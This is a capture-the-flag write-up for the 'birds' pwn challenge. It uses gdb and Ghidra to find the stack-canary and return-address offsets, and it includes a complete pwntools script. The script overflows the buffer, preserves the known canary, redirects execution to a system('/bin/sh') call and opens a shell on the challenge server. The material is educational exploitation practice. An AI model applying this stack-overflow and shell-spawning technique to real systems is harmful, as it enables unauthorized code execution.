 ##### pwn challenge  
Required Tools:   
\- checksec  
\- gdb debugger  
\- Linux operating system or Windows Subsystem for Linux (WSL)  
\- pwntools  
  
For this challenge, all that we need to do is find the distance between the buffer, the canary, and the return address at the end of main. After that, we just need to understand pwntools, how stack memory works, and how assembly works, and we can write a quick exploit script in python to get shell access to the remote server and print the flag.  
  
\### 1.  Finding all of our needed offsets  
\- We will use gdb to debug the \*\*birds\*\* executable. We will set two breakpoints. One at the instruction that takes place right after the buffer is filled, and another right on the RET instruction.  
\- Because this program is so simple you may be able to tell where to place both of these breakpoints by running the command \*\*disas main\*\*   
!\[\[main disassembly.png\]\]  
  
We can go ahead and place our breakpoints  at the RET instruction, and at the cmpl assembly instruction  
\`\`\`  
(gdb) b \*0x40125d  
Breakpoint 1 at 0x40125d                                                                                                                                 
(gdb) b \*0x401285  
Breakpoint 2 at 0x401285   
\`\`\`  
  
If you want to make sure you are understanding correctly and are placing your breakpoints at the right spot, you can open up the executable in ghidra or IDA pro and compare memory addresses with their places in the decompiled C code.  
  
After analyzing the executable, we find \*\*main\*\* in the symbol tree under functions. We can see that, although gdb and Ghidra disassembled the birds executable a little differently, that we have the correct position for both the start of the if statement, and the return address for main  
!\[\[ghidra-1.png\]\]  
  
While we are in gdb and ghidra, let us also figure out the address of the call to run the shell. We can skip straight to this address in memory to avoid having to call a gadget.  
  
Let's first disassemble win() in gdb, find the address we think is the system call to run the shell, and then verify we are correct with ghidra  
 !\[\[win disassembly.png\]\]  
It appears that the system call in \*\*win\*\* happens at 0x4011e6 in memory. And we can verify this in ghidra by finding \*\*win\*\* in the Symbol Tree  
!\[\[win breakpoint.png\]\]  
  
\*\*WATCH OUT!\*\*  
  
If we assumed that this memory address is where we should jump to in order to execute our shell system call, we would be mistaken! We have to remember that function calls require setup in assembly. The system function call requires an argument  (a command). Recall that in linux x86-64 assembly, RDI is a functions first argument, followed by RSI, RDX , RCX, and so on. This means that RDI must be filled with the system command '/bin/sh' before the system call, otherwise the function call will fail or behave unpredictably.   
  
From looking at ghidra's visual debugger, we can see that inside of the IF statement there are 2 lines of preparation before the system call is made. This means we should override main's return address with \*\*0x4011dc\*\* , which will bring us right to our shell system call.  
!\[\[Assembly Preparation.png\]\]  
  
Ok, so now it's time to run birds with the breakpoints we have set.   
1\. On our first breakpoint, we are trying to determine the distance between the buffer and the canary  
2\. On our second breakpoint, we are trying to find the return address of main, so that we can find the distance between the canary and the return address.  
  
When we run birds in gdb, we are prompted to fill the buffer. Go ahead and fill the buffer with 64 characters of any kind. Each character is a byte, that's why the buffer size and the character count is the same. In my debugging session I put in 64 A's.  
  
Feel free to copy/paste  
  
\` AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA  
  
Once you press enter, you will be stopped at our first breakpoint.   
  
At this breakpoint we want to examine the stack to see where the buffer ends and the canary begins. To inspect the stack, run the below command:  
** x/127wx $rsp **  
!\[\[stack-screenshot.png\]\]  
\- Lets break down the above GDB command:  
    - x/ -> examine -> used to inspect memory  
    - 128 -> Specifies the number of units to examine, in this case, 128 units  
    - w -> Stands for "word", which means each unit is 4 bytes / 32 bits  
    - x -> Specifies the format, which in this case is hexadecimal  
    - $rsp Refers to the stack pointer register  
    - All of the A's here display as 0x41, because the ASCII representation of A is 0x41 in hexadecimal (65 in decimal)  
  
Since each group of data displayed here is 4 bytes, we can tell that there are \*\*12 bytes of data\*\* in between the buffer and the canary  
  
Let's keep this screenshot in mind and continue to the next breakpoint. We can continue by typing \*\*c\*\*  
  
Once we break at the RET instruction, all we have to do is step one instruction forward and find the contents of RIP. Recall that RIP is the instruction pointer. Because we broke right before RET, if we step one instruction forward with the command \*\*stepi\*\*, the next instruction will be where we are returning to, AKA the return address of main.  
  
If we run the command \*\*info stack frame\*\*, we can find the contents of RIP , and try and find this address on the stack that we took a screenshot of before.  
!\[\[RIP Contents.png\]\]  
  
We found that the return address is 8 bytes away from the canary!  
  
![Stack Screenshot](stack-screenshot-Highlights.png)
  
We now know everything we need in order to write our pwntools script.  
  
We can take advantage of pwntools p32() and p64() functions to add our canary and return address data to the payload, as the data needs to be changed from big endian to little endian format in order for the CPU to read it properly.  
  
pwntools script:  
  
```  
from pwn import \*  
  
\# -- PAYLOAD CREATION -- #  
payload = b"A"\*64  
payload += b"B" \* 12  
payload += p32(0xDEADBEEF)  
#payload += b"\\xef\\xbe\\xad\\xde" <- what the canary ends up as  
  
payload += b"C" \* 8  
payload+= p64(0x00000000004011dc)  
#payload += b"\\xdc\\x11\\x40\\x00\\x00\\x00\\x00\\x00" <- what the ret addr ends up as  
  
print(payload)  
  
\# ---------------------- #  
  
  
\# EXECUTABLE CONNECTION #  
  
\# If you are connecting to a local process, use the below  
  
#p = process('./birds')  
#p.sendline(payload)  
#p.interactive()  
  
\# If you are connecting to a remote server, use the below  
  
target\_host = "tjc.tf"  
target\_port = 31625  
  
conn = remote(target\_host, target\_port)  
conn.recvuntil("wrong!\\n")  
conn.sendline(payload)  
conn.interactive()  
  
\# --------------------- #  
```  
  
Explanation of big -> little endian conversion  
  
Recall that in big endian format, numbers to the left are more significant than numbers on the right. Humans use big endian number formatting.  
  
In little endian format, numbers to the right are more significant than numbers to the left.  
  
For example, consider the big endian number 123. In little endian, that number would be written as 321. But they refer to the same value.  
  
gdb converts stack memory from little endian to big endian for readability purposes. But when we perform our buffer overflow attack, we have to make sure the data ends up on the stack in little endian format.  
  
However, each character/byte is represented with two hexidecimal digits. These two digits don't change order. !\[\[big-little-endian.png\]\]  
  
Putting the connection in interactive mode allows the user to run shell commands.#
